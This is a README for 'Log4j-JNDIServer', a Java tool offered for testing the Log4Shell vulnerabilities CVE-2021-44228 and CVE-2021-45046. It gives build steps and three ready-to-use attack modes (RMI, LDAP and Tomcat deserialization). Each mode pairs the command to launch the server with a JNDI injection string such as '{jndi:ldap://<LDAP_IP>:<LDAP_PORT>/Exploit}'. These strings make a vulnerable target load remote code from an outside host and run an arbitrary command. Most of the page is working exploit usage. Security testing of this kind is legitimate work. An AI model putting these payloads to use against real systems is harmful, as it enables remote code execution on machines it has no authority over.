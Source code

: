 # Log4j-JNDIServer

This project will help to test the Log4j CVE-2021-44228/CVE-2021-45046 vulnerabilities.

## Installation and Building

- Load the project on Intellij Idea
- Build Project (CTRL + F9). This will create the jar file in /out/artifacts/ folder

### Building with Maven

- `mvn clean package -DskipTests`
- You will find the .jar file in /target folder

## Examples 

### 1.RMI Attack Vector

`java -jar Log4j-JNDIServer.jar 1 <RMI_IP> <RMI_PORT> <HTTP_PORT> <COMMAND>`

You don't need to host the Exploit.class anymore. The app will start an HTTP server on the indicated port.

You must indicate the command you want to run in the target.

`Injection: {jndi:rmi://<RMI_IP>:<RMI_PORT>/Foo}`

### 2.LDAP Attack Vector

`java -jar Log4j-JNDIServer.jar 2 <LDAP_IP> <LDAP_PORT> <HTTP_PORT> <COMMAND>`

You don't need to host the Exploit.class anymore. The app will start an HTTP server on the indicated port.

You must indicate the command you want to run in the target.

`Injection: {jndi:ldap://<LDAP_IP>:<LDAP_PORT>/Exploit}`

### 3.Deserialization Attack Vector (Using Tomcat payload)

`java -jar Log4j-JNDIServer.jar 3 <RMI_IP> <RMI_PORT> <COMMAND>`

`Injection: {jndi:rmi://<RMI_IP>:<RMI_PORT>/Foo}`
